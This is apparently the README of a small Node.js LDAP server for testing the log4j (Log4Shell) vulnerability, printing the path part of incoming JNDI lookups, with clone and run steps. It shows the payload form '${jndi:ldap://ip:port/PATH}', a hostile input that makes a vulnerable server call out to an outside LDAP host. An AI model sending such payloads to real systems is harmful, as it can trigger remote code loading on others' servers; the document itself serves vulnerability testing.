 # Introduction

This is a server that will print out all `baseObject` from ldap connections. Basically if you execute log4j payload f.e. `${jndi:ldap://ip:port/PATH}`, the server will print out the "PATH" part which is really convenient for testing the vulnerability.


## How to use?

1. `git clone git@github.com:kannthu/ldap-log4j.git`

Note. DO NOT RUN `npm install`, we modified library `ldapjs` to print out the data, so if you run install it will be overriden. Do not do this.

2. `node script.js` - just run the server:)